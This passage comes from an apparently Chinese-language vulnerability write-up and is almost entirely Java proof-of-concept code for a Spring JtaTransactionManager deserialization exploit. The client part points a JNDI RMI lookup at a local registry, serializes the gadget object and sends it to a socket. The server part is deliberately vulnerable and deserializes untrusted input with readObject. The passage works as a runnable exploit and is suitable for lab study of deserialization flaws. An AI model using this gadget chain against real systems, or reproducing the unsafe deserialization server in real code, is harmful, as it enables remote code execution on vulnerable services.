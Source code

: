 ```
    `}`
    /***
     * 发送payload
     *
     * @throws Exception
     */
    public static  void sendPayload() throws Exception`{`
        //定义jndi的调用地址
        String uri = "rmi://127.0.0.1:1099/refObj";
        //实例化利用类JtaTransactionManager
        JtaTransactionManager jtaTransactionManager = new JtaTransactionManager();
        //调用setUserTransactionName方法从而控制userTransactionName
        jtaTransactionManager.setUserTransactionName(uri);
        //发送经过序列化后的Payload，等待服务端实例化时反序列化触发漏洞
        Socket socket = new Socket("127.0.0.1",2333);
        System.out.println("Sending Payload...");
        ObjectOutputStream oos = new ObjectOutputStream(socket.getOutputStream());
        oos.writeObject(jtaTransactionManager);
        oos.flush();
        oos.close();
        socket.close();
    `}`

    public static void main(String[] args) throws Exception`{`
        lanuchRMIregister();
        sendPayload();
    `}`
`}`
```

**服务端**<br>
服务端只需将得到的数据反序列化即可:

```
package SpringVuln;

import java.io.ObjectInputStream;
import java.net.ServerSocket;
import java.net.Socket;

public class ServerExploit `{`
    public static void main(String[] args) `{`
        try `{`
            //create socket
            ServerSocket serverSocket = new ServerSocket(Integer.parseInt("2333"));
            System.out.println("Server started on port "+serverSocket.getLocalPort());
            while(true) `{`
                //wait for connect
                Socket socket=serverSocket.accept();
                System.out.println("Connection received from "+socket.getInetAddress());
                ObjectInputStream objectInputStream = new ObjectInputStream(socket.getInputStream());
                try `{`
                    //readObject to DeSerialize
                    Object object = objectInputStream.readObject();
                    System.out.println("Read object "+object);
                `}` catch(Exception e) `{`
                    System.out.println("Exception caught while reading object");
                    e.printStackTrace();
                `}`
            `}`
        `}` catch(Exception e) `{`
            e.printStackTrace();
        `}`
```